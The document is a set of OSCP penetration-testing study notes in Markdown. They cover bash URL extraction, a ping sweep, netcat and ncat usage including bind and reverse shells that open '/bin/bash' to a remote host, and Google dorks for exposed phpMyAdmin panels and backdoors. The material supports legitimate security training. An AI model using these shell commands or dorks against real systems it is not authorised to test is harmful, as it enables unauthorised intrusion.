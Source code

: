 # OSCP
## Tools

#### Bash

The task is to get all urls on the page www.cisco.com

* content of the page can be downloaded with   
  `wget www.cisco.com`
* one line of the file looks like that  
  `<li><a,href="http://newsroom.cisco.com/">Newsroom</a></li>`
* we can use a one liner to solve the task    
    * `grep` searches for given string  
    * `cut` gets a delimiter with `-d` and returns the field `-f`
    * `sort -u` shows only unique strings  

```
grep "href=" index.html | cut -d "/" -f 3 | grep "\." | cut -d '"' -f 1 | sort -u
```
loop over the input of a file line by line
```
for url in $(cat list.txt); do host $url; done
```

Ping Sweep
```
#!/bin/bash

echo "Ping Sweep"

for ip in {0..254}
do
        ping -c1 192.168.178.$ip| grep "bytes from"|cut -d " " -f4|cut -d ":" -f1 &
done
```

!!! info
    * Bind Shell: Server is listening
    * Reverse Shell: Client is listening

### Netcat

* Switches used
    * `-l` listen for connection
    * `-n` Do not do any DNS or service lookups
    * `-v` verbose
    * `-p` source port

* Chat
    * Client: `nc -nv <server ip addr> <open port on server>`
    * Sever: `nc -nlvp <listening port>`

* File transfer
    * Client: `nc -nv <server ip addr> 4444 < sending.exe`
    * Sever: `nc -nlvp 4444 > incoming.exe`

* Bind Shell
    * Client: `nc -vn <server ip addr> 4444`
    * Server: `nc -nlvp 4444 -c <path to shell>`

* Reverse Shell
    * Server has no public ip
    * Client: `nc -nlvp 4444`
    * Server: `nc -vn <client ip addr> 4444 -e /bin/bash`

### Ncat

* improved **Netcat** adds:
    * encryption
    * access limitation

* Bind Shell
    * Client `ncat -v <server ip addr> <open port on server>`
    * Server `ncat -lvp <listening port> -e <path to shell> --allow <client ip addr> --ssl`

### Wireshark
* Follow TCP Stream

### Tcpdump

## Information Gathering

### Active

### Passive
* Google Hacking
    * `site:"<url of website>"`
        * gets all subdomains
        * size of webpresenz
    * `-site:"<url of website>"`
        * exclude these
    * `filetype:<file extesion>`
        * ex.: ppt, pdf, txt
    * `"<search string>"` search the exact string
    * `intitle:"<string>"`
    * `inurl:"</path/for/search>"`
    * `inurl:.php? intext:CHARACTER_SETS,COLLATIONS intitle:phpmyadmin`
        * searching for unprotected phpmyadmin panels
    * `intitle:"-N3t" filetype:php undetectable`
        * searching after string found in backdoor
    * [Google Hacking Database](https://www.exploit-db.com/google-hacking-database)

